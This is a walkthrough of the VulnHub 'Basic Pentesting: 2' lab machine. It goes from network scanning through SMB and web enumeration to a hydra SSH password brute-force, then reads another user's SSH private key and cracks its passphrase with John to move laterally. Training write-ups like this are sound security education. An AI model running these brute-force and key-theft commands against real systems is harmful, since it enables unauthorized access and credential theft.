- **Machine:** Basic Pentesting: 2
- **Download:** https://www.vulnhub.com/entry/basic-pentesting-2,241/



---

## Setup

- Extract the downloaded archive.
- Import the `.ova` file into VirtualBox.
- Click **Finish**.
- Start the virtual machine.

---

# Network Scanning

## Find the Target IP Address

```bash
nmap -sn 192.168.2.0/24
```



---

## Full Port Scan

Run a comprehensive Nmap scan to enumerate all open ports, services, operating system details, and default NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.105
```



---

## Optional Port Scan

```bash
nmap -v -p- 192.168.2.105
```

```bash
nmap -sC -sV -A 192.168.2.105
```

---

## HTTP Enumeration

This command performs an aggressive scan and uses the `http-enum` NSE script to identify interesting web directories.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.105
```



---

# Web Enumeration

Visit the following URLs:

- http://192.168.2.105
- http://192.168.2.105:8080/

---

## Development Directory

Browse to the following endpoint:

- http://192.168.2.105/development/



Open the available files inside the directory.



### Interesting Findings

- Discovered two usernames:
  - `j`
  - `k`
- Found a note indicating that **user `j` uses weak passwords**.

---

# SMB Enumeration

Enumerate available SMB shares.

```bash
smbclient -L //192.168.2.105/ -N
```



---

## Access Anonymous Share

```bash
smbclient //192.168.2.105/Anonymous -N
```

Inside the SMB shell:

```bash
ls
```

Download interesting files:

```bash
get <filename>
```



---

## Read the Downloaded File

```bash
cat staff.txt
```



### Findings

- Identified two usernames:
  - `jan`
  - `kay`
- The note strongly suggests that **Jan uses weak passwords**.

---

# SSH Password Attack (Lab)

> **Lab note:** The following password attack is performed only against the authorized VulnHub practice machine.

Attempt authentication testing for the `jan` account.

```bash
hydra -t 4 -l jan -P /opt/rockyou.txt ssh://192.168.2.105
```



---

## SSH Login as Jan

After obtaining valid credentials, connect via SSH.

```bash
ssh jan@192.168.2.105
```



---

# Post-Exploitation Enumeration

## Enumerate Home Directories

```bash
ls -la /home
```

```bash
ls -la /home/kay
```



### Interesting Finding

An SSH private key was discovered:

```text
/home/kay/.ssh/id_rsa
```

---

## Read the Private Key

```bash
cat /home/kay/.ssh/id_rsa
```



Copy the private key to the Kali machine.

```bash
nano kay_id_rsa
```

Paste the contents of the key.



---

## Set Proper Permissions

```bash
chmod 600 kay_id_rsa
```

---

## Convert the SSH Key for John

```bash
ssh2john kay_id_rsa > hash.txt
```

---

## Crack the SSH Key Passphrase

```bash
john hash.txt --wordlist=/opt/rockyou.txt
```



---

## SSH Login as Kay

After recovering the passphrase, authenticate as the `kay` user.

```bash
ssh -i kay_id_rsa kay@192.168.2.105
```



---

# Impact

- Information disclosure through exposed development files.
- Anonymous SMB share allowed access to sensitive information.
- Weak password enabled unauthorized SSH access.
- Exposed SSH private key resulted in lateral movement to another user account.

---

# Key Learning

- Always enumerate hidden web directories.
- SMB anonymous shares can expose valuable information.
- Weak passwords significantly reduce system security.
- SSH private keys should never be readable by other users.
- Post-exploitation enumeration often reveals additional attack paths.

---

# Summary

The assessment began with web enumeration, revealing a development directory containing usernames and password hints. Anonymous SMB access exposed additional user information, leading to successful authentication as the `jan` user. During post-exploitation, an exposed SSH private key belonging to `kay` was discovered, its passphrase was recovered, and access was obtained to the second user account.